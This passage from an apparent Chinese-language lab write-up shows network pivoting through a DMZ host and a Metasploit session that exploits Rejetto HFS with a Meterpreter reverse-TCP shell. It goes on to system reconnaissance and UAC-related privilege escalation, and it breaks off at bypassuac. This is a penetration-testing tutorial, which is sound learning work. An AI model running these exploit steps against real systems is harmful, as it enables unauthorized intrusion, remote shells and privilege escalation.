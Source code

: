 ```bash
# on A (Mac OSX)
sudo route add -net 192.168.6.0/24 172.16.56.130
# on B (Linux, DMZ)
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

此时Windows已经能够ping通攻击者机器。

```
msf > use exploit/windows/http/rejetto_hfs_exec
msf exploit(windows/http/rejetto_hfs_exec) > set RHOST 192.168.6.110
RHOST => 192.168.6.110
msf exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080

msf exploit(windows/http/rejetto_hfs_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

msf exploit(windows/http/rejetto_hfs_exec) > set LPORT 7777
LPORT => 7777
```

![Screen Shot 2018-10-19 at 8.52.59 AM.png]({{ site.url }}/images/metasploit/910571076A645ECEDC74DB5368069C73.png)

不容易，又拿到一个meterpreter。

当然了，从HFS的Log也能看出被入侵：

![Screen Shot 2018-10-19 at 9.03.58 AM.png]({{ site.url }}/images/metasploit/533B35F89109FB4639D08F327445B91D.png)

接下来看看：

```
meterpreter > sysinfo
Computer        : TEST
OS              : Windows 7 (Build 7600).
Architecture    : x64
System Language : zh_CN
Domain          : RAMBO
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > getuid
Server username: TEST\rambo
```

在getsystem时遇到错误：

![Screen Shot 2018-10-19 at 9.08.23 AM.png]({{ site.url }}/images/metasploit/41E6772634B0BC7E6C761B2EE1017CBC.png)

参考[Metasploit 「信息搜集」抓取用户 HASH](https://www.bodkin.ren/index.php/archives/478/)，可能是Win7的UAC导致的。解决方法是最开始以管理员身份运行HFS。这样可以提权成功：

![Screen Shot 2018-10-19 at 9.11.56 AM.png]({{ site.url }}/images/metasploit/89C97BFE6D488F8C2DDCCDA1B7AE75B4.png)

也可以不这样做，尝试一下bypassuac：
